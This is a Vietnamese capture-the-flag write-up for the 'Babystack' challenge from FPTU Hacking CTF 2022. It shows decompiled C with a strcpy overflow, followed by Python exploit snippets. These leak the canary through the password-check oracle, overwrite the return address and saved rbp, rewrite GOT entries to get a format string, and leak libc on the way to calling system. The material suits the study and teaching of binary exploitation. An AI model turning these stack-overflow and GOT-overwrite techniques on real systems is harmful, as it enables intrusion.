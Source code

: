 # [Babystack - FPTU Hacking CTF 2022]
```C
#include <stdio.h>
#include <stdbool.h>


void timeout(void) {
    puts("Timeout");
                        /* WARNING: Subroutine does not return */
    exit(1);
}


int init() {
    int iVar1;

    signal(0xe, timeout);
    alarm(0x80);
    setvbuf(stdin, (char *)0x0, 2, 0);
    setvbuf(stdout, (char *)0x0, 2, 0);
    iVar1 = setvbuf(stderr, (char *)0x0, 2, 0);
    return iVar1;
}

void read_input(void *param_1, unsigned int param_2) {
    int iVar1;
    size_t sVar2;

    sVar2 = read(0, param_1, (unsigned long)param_2);
    iVar1 = (int)sVar2;
    if (iVar1 < 0) {
        puts("Read error");
        /* WARNING: Subroutine does not return */
        exit(-1);
    }
    if (*(char *)((long)param_1 + (long)iVar1 + -1) == '\n') {
        *(char *)((long)param_1 + (long)iVar1 + -1) = 0;
    }
    return;
}

int copy(char *dst, char *src) {
    int iVar1;
    char local_88[128];

    printf("Copy :");
    read_input(local_88, 0x3f);
    strcpy((char *)dst, local_88);
    iVar1 = puts("Your input was copied!");
    return iVar1;
}

undefined8 main() {
    int iVar1;
    char *src;
    char local_78[64];
    undefined8 local_38;
    undefined8 local_30;
    char local_28[28];
    int local_c;

    init();
    local_c = open("/dev/urandom", 0);
    read(local_c, &local_38, 0x10);
    password._0_8_ = local_38;
    password._8_8_ = local_30;
    close(local_c);
    while (true) {
        write(1, &DAT_001020bc, 2);
        src = local_28;
        read(0, src, 0x10);
        if (local_28[0] == (char)0x32)
            break;
        if (local_28[0] == (char)0x33) {
            if (logged_in == 0) {
                puts("You are not logged in");
            }
            else {
                copy(local_78, src);
            }
        }
        else if (local_28[0] == (char)0x31) {
            if (logged_in == 0) {
                login(&local_38);
            }
            else {
                logged_in = 0;
            }
        }
        else {
            puts("Invalid choice");
        }
    }
    if (logged_in == 0) {
        puts("I don\'t trust non-user");
        /* WARNING: Subroutine does not return */
        exit(0);
    }
    iVar1 = memcmp(&local_38, password, 0x10);
    if (iVar1 != 0) {
        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return 0;
}

undefined8 check_password(long param_1, long param_2, int param_3) {
    undefined8 uVar1;
    int local_10;
    int local_c;

    local_c = 0;
    for (local_10 = 0; (local_10 < param_3 && (*(char *)(param_2 + local_10) != '\0'));
         local_10 = local_10 + 1) {
        local_c = local_c + ((unsigned int param_2) * (byte *)(param_2 + local_10) - (unsigned int param_2) * (byte *)(param_1 + local_10));
    }
    if (local_c == 0) {
        uVar1 = 1;
    }
    else {
        if (0 < local_c) {
            puts("Your password is too small!");
        }
        if (local_c < 0) {
            puts("Your password is too large!");
        }
        uVar1 = 0;
    }
    return uVar1;
}

void login(undefined8 param_1) {
    int iVar1;
    size_t sVar2;
    char local_88[128];

    printf("Your password:");
    read_input(local_88, 0x80);
    sVar2 = strlen(local_88);
    iVar1 = check_password(local_88, param_1, sVar2 & 0xffffffff);
    if (iVar1 == 0) {
        attempt = attempt + 1;
        if (0xe6 < attempt) {
            puts("Too many login attempts");
            /* WARNING: Subroutine does not return */
            exit(0);
        }
        puts("Failed !");
    }
    else {
        logged_in = 1;
        puts("Login Succeeded !");
    }
    return;
}
```
Checksec em nó xem:
![image](https://user-images.githubusercontent.com/54637811/176080985-b8f2372d-daa7-4c7c-aa34-0a08d0ef745f.png)

Phân tích thì bài này có 2 chức năng chính, login và copy, 1 số kết luận như sau:
* Đầu tiên nó đọc 16 bytes mật khẩu random rồi để trên bss và stack
* Login đoán đúng 16 bytes là ăn, nhưng nếu đọc kỹ hàm check_password thì chỉ cần login("\n") là được.
* Hàm check_password so sánh theo độ dài của input chứ không phải so sánh 16 bytes, dễ đến bị leak 1 số thống tin trên stack. 
* Hàm copy dùng `strcpy`, overflow là cái chắc. Để ý thì con trỏ input của hàm `login` là `[rbp-0x80]` và của hàm `copy` là `[rbp-0x80]`, nhưng hàm độ dài lớn nhất của input của hàm `copy` là 0x3f, còn `login` là 0x80. Tức là ta ghi đoạn payload cần overflow bằng hàm `login` xong đó dùng hàm `copy`. Hàm `copy` copy vào địa chỉ `[rbp-0x70]`, tức là ta ghi đè được old rbp và return address.
* Khi đăng nhập thì nó còn có 1 đoạn thông báo: `puts("Your password is too small!");` và `puts("Your password is too large!");`. Nghĩ ngay đến bruteforce trên stack, nhưng do giới hạn số lần đăng nhập sai nên viết thuật toán cẩn thận tý là ăn.

Đây là đoạn leak 16 byte 
```python
leak_canary = b''
for i in range(16):
    low = 1
    high = 255
    
    while True:
        j = (low + high) // 2
        login(leak_canary+j.to_bytes(1, 'little')+b'\n')
        recv = r.recvline()
        if b'Login Succeeded !\n' == recv:
            leak_canary += j.to_bytes(1, 'little')
            logout()
            break
        elif b'Your password is too small!\n' == recv:
            low = j
        elif b'Your password is too large!\n' == recv:
            high = j
```

Tiếp theo là leak binary base. Ta thầy password ở [rbp-0x30], ta được phép ghi 10 byte vào [rbp-0x20], ở [rbp-0x18] có một địa chỉ của binary. Easy to leak
![image](https://user-images.githubusercontent.com/54637811/176096021-de3722d3-fd21-4b6e-8855-72f63b5d9f16.png)

Bắt đầu exploit:
```python
payload = b'a'*0x40 + leak_canary + b'a'*0x28 + p64(bin.address+0x14ad)[:-2]
login(payload)
login(b'\n')
copy(b'a')
logout()
```
Mục đích là ghi đè return address đến địa chỉ Base + 0x14ad, địa chỉ này nằm trong hàm `copy`. Tiếp theo sẽ là ghi đè old rbp để nó trỏ tới `bin.got['strcpy']+0x80`. Nhưng trước khi lặp lại bước trên, ta phải xóa 1 số chữ 'a' ở old rbp do bước trên.
```python
payload = b'a'*0x40 + leak_canary + b'a'*0x27 + b'\n'
r.sendafter(b'> ', b'1\n')
r.sendafter(b'Your password:', payload)
login(b'\n')
copy(b'a')
r.sendafter(b'> ', b'1\n')

payload = b'a'*0x40 + leak_canary + b'a'*0x20 + p64(bin.got['strcpy']+0x80)
r.sendafter(b'> ', b'1\n')
r.sendafter(b'Your password:', payload)
login(b'\n')
copy(b'a')
r.sendafter(b'> ', b'1\n')
```
Ok bây giờ thoát vòng lặp và chương trình sẽ return về địa chỉ Base + 0x14ad
![image](https://user-images.githubusercontent.com/54637811/176096882-604c214e-0ff9-43d0-9ccf-ca1d0e364ed1.png)

rbp đang bằng `bin.got['strcpy']+0x80`, do đó ta có thể ghi trên GOT
```python
payload = p64(bin.symbols['login']) + p64(bin.symbols['login']) + p64(bin.plt['write']+6) + \
        p64(bin.plt['printf']+6)
r.sendafter(b'Copy :', payload)
```
`strcpy`, `puts` sẽ thay bằng hàm `login`, `strlen` sẽ thay bằng `printf` để có **Format string**.
Luồng thực thi sẽ chạy tiếp đến hàm `strcpy` (đã bị ghi đè thành `login`). Trong hàm `login` sẽ nhận input và đưa vào `strlen`, ta sẽ leak được Libc
```python
payload = b'%4$p'.ljust(8, b'\x00') + p64(bin.symbols['copy'])
r.sendafter(b'Your password:', payload)
libc.address = int(r.recv(14), 16) - 0x5ed700
log.success('Libc base: %#x' % libc.address)
```

Hàm login sẽ gọi hàm puts, chúng ta sẽ có **Format string** vô hạn.
Kết thúc bài toán bằng đoạn payload ghi đè `strlen@got` thành địa chỉ `system`.
